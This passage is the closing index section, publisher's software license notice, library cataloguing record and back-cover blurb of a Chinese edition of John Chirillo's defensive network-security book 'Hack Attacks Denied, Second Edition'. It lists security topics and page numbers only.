- 用户认证要求, 绕过, 533
- 用户权限, 519, 533
- 基于用户的认证, 311
- 用户数据报协议。参见UDP条目
- 用户数据报, 5
- 用户标识(UID), 364
- 用户ID
  - 非活动的, 517, 531
  - 维护, 517, 531
- UserOpts.frm, 修改, 22-27
- 用户问题报告, 541, 597
- 用户配置文件, 多个, 271, 272
- 用户限制, 520
- 用户
  - 将操作与...关联, 517, 531
  - 培训, 532
- Users.ini文件, 29
- 用户支持, 511-512
- 实用程序, 故障, 510, 524
- UUCP。参见简单*NIX到*NIX复制协议(UUCP)
- UUCP守护进程, 69-70
- uuxqt实用程序, 369
- ValCom专业计算机中心, 552
- 验证控件, 514-515, 624
- VB。参见Visual Basic (VB)
- VBS/On The Fly蠕虫, 400-401
- VBScript, 203
- .vbs扩展名, 401
- vCard缓冲区溢出, Outlook 2000, 400
- 供应商开发人员, 234
- 供应商网站, 318
- VeriSign商业软件发布商, 400, 471
- 版本控制, 527
- "查看源代码"脚本, 435
- 病毒感染, 防范, 289-291。另见病毒
- 病毒特征码, 291
- 虚电路, 4
- 虚拟连接控制, 226-230
- 虚拟局域网(VLAN), 241
- 虚拟专用网络(VPN), 70, 280, 312-313
- 病毒检测软件, 528
- 病毒, 定义, 89-90。另见恶意代码; 木马(Trojan); 蠕虫
- 病毒防护软件, 290
- 病毒扫描, 514, 528
- 病毒特征码文件, 514
- Visual Basic (VB), 74
- VisualRoute实用程序, 162-163
- 网络电话(VoIP), 242
- VooDoo Doll服务, 107
- VPN网关, 313
- VPN支持, 313
- -v扫描选项, 182
- 漏洞, 427, 428
  - 内部/外部, 231
- 漏洞分析, 561-595
- 漏洞渗透结果, 563
- 漏洞扫描器功能, 184-185

#### W

- W32/BadTrans蠕虫, 387-388, 469-470
- W32/Goner蠕虫, 386-387, 467-468
- W32/Leaves恶意代码, 397。另见Leaves蠕虫
- W32/Myparty恶意代码, 382-383, 472-473
- W32.QAZ.Worm服务, 118
- W32/Sircam恶意代码, 393-395, 465-467
- *.wab文件。参见Windows通讯簿(*.wab)文件
- WAN（广域网）
  - 审计, 541-542, 598
  - 示例, 573-595
- WAN数据, 544-545
- WAN基础设施发现视图, 547
- WAN链路, 226
- Wann, Pete, 309
- WAN场景, 常见, 227
- 拨号扫描, 310, 537
- 驾驶扫描, 310
- 担保, 硬件/软件, 527
- 华盛顿大学文件传输协议守护进程(WU-FTPd), 453
  - 其中的漏洞, 351-352, 375-376, 477-478
- 监视器, 126-151
- 数字水印, 210
- 弱密码, 428-429
- 弱WEP密钥, 306
- Web cookie, 484
- Web页面代码, 前端, 191
- Web页面黑客攻击, 66, 560
  - 防范, 291-305
- Web服务器入侵, 337
- Web服务器守护进程(HTTPd), 317
- Web服务器目录列表, 435
- Web服务器文件执行, 435
- Web服务器文件夹遍历, 341
- Web服务器漏洞, 563
  - 脚本列表, 433-435
- 网站审计, 537
- 网站设计, 189-201
- Website Professional
  - 其中的缓冲区溢出, 464
  - 其中的拒绝服务利用, 349
- 通过网站进行黑客攻击
  - 其上的电子邮件地址, 189-192
- WECA。参见无线以太网兼容性联盟(WECA)
- 知名端口, 1-2, 3-70。另见WKS（知名服务）记录类型
  - 保护, 8-70
- 知名端口服务, 屏蔽, 233
- WEP。参见有线等效协议(WEP)
- WEPCrack实用程序, 306, 310
- WEP加密, 40位, 307
- Whisker网站, 433
- Whois域查询, 554-555
- Whois信息, 154-160
- Whois服务URL, 554
- 广域网(WAN)。参见WAN条目
- 通配符地址, 173
- 通配符, 174
- 通配符掩码, 174
- %windir%.CMD.EXRegexp正则表达式, 462
- Windows 2000
  - 其中的加密, 309
  - 其中的其他破坏, 411
- Windows 3x, 其中的其他破坏, 411
- Windows 9x, 其中的其他破坏, 411
- Windows通讯簿, 401
- Windows通讯簿(*.wab)文件, 394, 466
- Windows Internet命名服务(WINS)信息, 183。另见WINS名称服务
- Windows记录器, 245
- Windows ME, 385
- Windows NT, 其中的其他破坏, 412
- Windows系统注册表。参见系统注册表
- Windows系统, 380-412。另见W32条目
  - 向其添加域服务, 43
  - 已入侵的, 343
  - 禁用chargen服务, 13
  - 禁用echo服务, 10-11
  - 禁用finger服务, 65
  - 禁用FTP服务, 13-16
  - 禁用POP服务, 67
  - 禁用SMTP服务, 41
  - 禁用telnet服务, 28
- Windows XP Internet连接防火墙, 132
- WinGate利用, 425
- WININIT.INI文件, 467-468
  - 与W32/Goner蠕虫, 386
- WinLock, 644
  - 其中的代码, 403-406
- WinPC服务, 103
- WINS信息。参见Windows Internet命名服务(WINS)信息
- WINS名称服务, 68
- Winsock, 48
- Winsock(x)流, 88-89
- 有线等效协议(WEP), 306。另见WEP条目
  - 其中的缺陷, 310
- 无线访问服务器, 312
- 无线以太网兼容性联盟(WECA), 312
- 无线局域网(WLAN), 309
  - 黑客攻击, 305-313
  - 保护, 310-313
- 无线网络供应商, 312
- 无线供应商, 用于加密密钥管理, 311
- WKS（知名服务）记录类型, 180
- 女性, 作为黑客, 210
- 工作站问题解决, 573
- 万维网, 用于...的HTTP, 65。另见网站设计
- 蠕虫, 定义, 89-90。另见恶意代码; 木马(Trojan); 病毒
- 可写FTP目录, 461
- WU-FTPd。参见华盛顿大学文件传输协议守护进程(WU-FTPd)
- www.iplanet.com/downloads/patches, 345

#### X

- X25记录类型, 180
- X-Force警报, 427
- X-Mail漏洞, 464-465
- XSane漏洞, 372
- XYZ有限公司, 154-155

#### Y

- Yahoo网站, 265, 270, 429
- Yppasswrd缓冲区溢出, 417

#### Z

- ZDNet网站, 245, 433
- ZoneAlarm Pro, 131-132
- Zone Labs, 131
- 区域, 179
- 区域传输信息, 181

---

客户须知：如果本书附有软件，请在打开包装前阅读以下内容。

该软件包含帮助您利用本书所述模型的文件。打开包装即表示您同意遵守以下协议：

本软件产品受版权保护，作者John Wiley & Sons, Inc.或其许可方保留所有权利。您获得许可，可按照软件及随附本书所述使用本软件。出于任何其他目的复制本软件可能违反美国版权法。

本软件产品按"原样"销售，不提供任何明示或暗示的担保，包括但不限于适销性和特定用途适用性的暗示担保。Wiley及其经销商或分销商不对因使用或无法使用本软件而引起的任何据称或实际的损害承担责任。（某些州不允许排除暗示担保，因此该排除可能不适用于您。）

---

南柴郡学院

中央学习资源中心

| 字段 | 值 |
|---|---|
| 登录号 | A0018239 |
| 日期 | 1/03 |
| 价格 | 37.50 |
| 供应商 | RL |
| 发票号 | 60516 |
| 订单号 | 33050 |
| 分类号 | 005.88 |


约翰·奇里洛（JOHN CHIRILLO）重磅回归，助你智胜新一代入侵者！

## 黑客攻击防范手册

自*第一版*出版以来，网络又不可避免地出现了新的安全漏洞。为了让安全工程师和设计师掌握最新的黑客防范信息，约翰·奇里洛带着全新版本回归，教你如何加固网络和家用计算机。他对这本畅销书进行了更新升级，为你提供从系统到守护进程的必要安全防护措施，并以那一个关键要素——有效的安全策略作为总结。本书包含近400页的全新内容，包括新的防御技术、咨询解决方案和防火墙实验，*《黑客攻击防范手册，第二版》*（*Hack Attacks Denied, Second Edition*）提供了至关重要的见解，教会你如何意识到潜在的安全危险。

这本一站式参考书涵盖Windows、UNIX和Linux系统，教你如何通过使用黑客检测和利用网络漏洞时所用的Tiger Box工具，将黑客拒之网外。*第二版*包含大量必要的示例和插图，包含以下内容：

- 超过170种新的应对措施
- 针对UNIX和Windows系统前75种黑客攻击的补丁修复
- 清除和预防恶意代码，包括Myparty、Goner、Sircam、BadTrans、Nimda、Code Red I/II等
- TigerSurf 2.0入侵防御系统（完整套件单用户许可证）

**约翰·奇里洛**（**JOHN CHIRILLO**）是一家技术管理公司的高级互联网络工程师。他拥有众多认证资格，包括CCNA、CCDA、CCNP、CISSP（待认证）、英特尔认证解决方案顾问、康柏ASE企业存储和Master UNIX认证等。约翰在各类计算机系统方面拥有超过十年的工作经验，以及超过五年的培训经验。约翰是威利出版社五本书籍的作者，包括《黑客攻击》系列。

## 附赠CD！

为了容纳书中的新内容，奇里洛将所有冗长的列表和源代码从书中转移到了CD-ROM上，同时还添加了新版本的安全软件TigerSurf 2.0。

## 同时提供：

*《黑客攻击揭秘，第二版》*（*Hack Attacks Revealed, Second Edition*）

威利技术出版

及时。实用。可靠。

欢迎访问我们的网站 **www.wiley.com/compbooks/**
